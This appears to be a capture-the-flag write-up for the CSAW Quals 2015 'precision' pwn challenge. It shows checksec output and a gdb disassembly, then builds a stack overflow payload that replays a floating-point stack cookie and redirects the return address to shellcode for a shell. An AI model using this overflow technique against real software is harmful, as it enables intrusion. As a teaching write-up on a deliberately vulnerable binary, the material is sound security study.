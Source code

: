 ```yaml
---
layout: post
title: CSAW QUALS 2015 PWN 100
tags: [ctf, pwn, write-up, csaw15, canary, bof]
---
```


### Challenge: [precision](../ctfs/csaw15/pwn/precision-100/precision_a8f6f0590c177948fe06c76a1831e650)

### Reversing
I start by doing a quick `file` and `checksec`
```bash
$ file ./precision
precision: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
$ checksec ./precision
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
I can see from the results of `checksec` that this 32-bit binary doesn't have any protections enabled. I run it once to see whats the binary doing.  
```bash
$ ./precision
Buff: 0xffb40f28
AAAA
Got AAAA
```
When running the binary, it prints address of a buffer then it takes input. After sending input "AAAA\n", input gets printed back on the console and process terminates.  
Considering we are dealing with a string echo here. I tried providing "%x\n" in the input.  
```bash
$ ./precision
Buff: 0xffb40f28
%x
Got %x
```
So no format string vulnerability here. Then for the last black box test I provided a large string as input.  
```bash
$ python -c 'print "A"*2000' | ./precision
Buff: 0xffa02b18
Nope
```
It didn't work either. Time to start real reversing.  
Now opening binary in IDA makes it a little too easy so I will do it with gdb-peda `pdisass` to make it interesting.  
```bash
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0804851d <+0>:	push   ebp
   0x0804851e <+1>:	mov    ebp,esp
   0x08048520 <+3>:	and    esp,0xfffffff0
   0x08048523 <+6>:	sub    esp,0xa0
   0x08048529 <+12>:	fld    QWORD PTR ds:0x8048690
   0x0804852f <+18>:	fstp   QWORD PTR [esp+0x98] # cookie
   0x08048536 <+25>:	mov    eax,ds:0x804a040
   0x0804853b <+30>:	mov    DWORD PTR [esp+0xc],0x0
   0x08048543 <+38>:	mov    DWORD PTR [esp+0x8],0x2
   0x0804854b <+46>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048553 <+54>:	mov    DWORD PTR [esp],eax
   0x08048556 <+57>:	call   0x8048400 <setvbuf@plt>
   0x0804855b <+62>:	lea    eax,[esp+0x18] # Buff
   0x0804855f <+66>:	mov    DWORD PTR [esp+0x4],eax
   0x08048563 <+70>:	mov    DWORD PTR [esp],0x8048678
   0x0804856a <+77>:	call   0x80483b0 <printf@plt>
   0x0804856f <+82>:	lea    eax,[esp+0x18]
   0x08048573 <+86>:	mov    DWORD PTR [esp+0x4],eax
   0x08048577 <+90>:	mov    DWORD PTR [esp],0x8048682
   0x0804857e <+97>:	call   0x8048410 <__isoc99_scanf@plt>
   0x08048583 <+102>:	fld    QWORD PTR [esp+0x98]
   0x0804858a <+109>:	fld    QWORD PTR ds:0x8048690
   0x08048590 <+115>:	fucomip st,st(1)
   0x08048592 <+117>:	fstp   st(0)
   0x08048594 <+119>:	jp     0x80485a9 <main+140>
   0x08048596 <+121>:	fld    QWORD PTR [esp+0x98]
   0x0804859d <+128>:	fld    QWORD PTR ds:0x8048690
   0x080485a3 <+134>:	fucomip st,st(1)
   0x080485a5 <+136>:	fstp   st(0)
   0x080485a7 <+138>:	je     0x80485c1 <main+164>
   0x080485a9 <+140>:	mov    DWORD PTR [esp],0x8048685
   0x080485b0 <+147>:	call   0x80483c0 <puts@plt>
   0x080485b5 <+152>:	mov    DWORD PTR [esp],0x1
   0x080485bc <+159>:	call   0x80483e0 <exit@plt>
   0x080485c1 <+164>:	mov    eax,ds:0x804a030
   0x080485c6 <+169>:	lea    edx,[esp+0x18]
   0x080485ca <+173>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ce <+177>:	mov    DWORD PTR [esp],eax
   0x080485d1 <+180>:	call   0x80483b0 <printf@plt>
   0x080485d6 <+185>:	leave  
   0x080485d7 <+186>:	ret    
End of assembler dump.
gdb-peda$
```
After the function prologue I can see some interesting instructions (fld, fstp). These instructions are used for handling floating point values. In a summary we can say that it takes a floating point value from ds:0x8048690 and puts it in a local variable ([esp+0x98]). After this `stdout` is cleared from a typical `setvbuf` call. "Buff: 0xXXXXXXXX" gets printed on the console and `__isoc99_scanf` starts waiting for the input. Then it compares the value in local variable ([esp+0x98]) to ds:0x8048690 and it both values are not same it prints "Nope" and exits. But if the values are the same then it prints "Got *string_input*" and main returns. So clearly this custom logic is placed to have a check for buffer overflow vulnerable `__isoc99_scanf` function.  

### Exploitation
To exploit buffer overflow in `__isoc99_scanf`, I first have to bypass custom stack cookie logic in place. For this I can just look up the 8 bytes (floating point values are represented by 8 bytes in memory) value on ds:0x8048690 and while overflowing the local variable (stack cookie) provide the same value.  
```bash
gdb-peda$ x/gx 0x8048690
0x8048690:	0x40501555475a31a5
```
Now we can craft our simple stack based overflow payload. Offset between our Buff and cookie local variable is 0x80.  

`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40"`  
I can add cyclic pattern from *gdb-peda* in above payload to determine offset to return address on stack, that is 12 here.  
`"A"*0x80 + "\xa5\x31\x5a\x47" + "\x55\x15\x50\x40" + "B"*12 + "XXXX"`  
Here I can replace return address "XXXX" to address of our input buffer (Buff) provided when running the binary. And start of the payload buffer have be converted into a shellcode that will give us a shell.  
This pwntools [script](../ctfs/csaw15/pwn/precision-100/sploit.py) will be doing all thing automated for us.  

